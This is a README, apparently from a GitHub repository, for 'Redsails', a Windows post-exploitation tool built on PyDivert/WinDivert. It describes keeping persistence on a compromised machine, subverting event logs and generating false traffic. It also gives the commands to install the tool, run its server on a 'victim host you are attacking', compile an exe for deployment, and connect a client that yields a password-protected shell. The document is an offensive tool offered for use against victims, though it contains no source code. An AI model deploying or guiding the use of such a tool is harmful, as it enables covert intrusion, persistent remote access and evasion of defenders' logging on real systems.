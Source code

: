 # Redsails

## About
A post-exploitation tool capable of:
-	maintaining persistence on a compromised machine
-	subverting many common host event logs (both network and account logon)
-	generating false logs / network traffic

Based on [PyDivert] (https://github.com/ffalcinelli/pydivert), a Python binding for [WinDivert](https://www.reqrypt.org/windivert.html), a Windows driver that allows user-mode applications to capture/modify/drop network packets sent to/from the Windows network stack.

Built for Windows operating systems newer than Vista and Windows 2008 (including Windows 7, Windows 8 and Windows 10).

## Dependencies
  Redsails has dependencies PyDivert and WinDivert. You can resolve those dependencies by running:
  #### `pip install pydivert`
  #### `pip install pbkdf2`
 
 Pycrypto is also needed.
  #### `easy_install pycrypto`
  Pycrypto may have a dependency on [Microsoft Visual C++ Compiler for Python 2.7] (http://aka.ms/vcpython27)
  
## Usage
- Server (victim host you are attacking)
  #### `redSails.py`
  
  Or if the victim does not have python installed, you can run provided exe (or compile your own! instructions below)
  #### `redSails.exe

- Client (attacker)
  #### `redSailsClient.py <ip> <port>`

## Creating an executable
  To compile an exe (for deployment) inlieu of the python script, you will need pyinstaller:
  #### `pip install pyinstaller`
  
  Then you can create the exe:
  #### `pyinstaller-script.py -F --clean redSails.spec`
  
## 用法
```
在目标主机上执行:
redsails.exe -a <IP Address> -p <password> -o <port>
在本地进行监听，使用相同的密码就可以获得一个shell
python redsailsClient.py -t <IP Address> -p <password> -o <port>
```
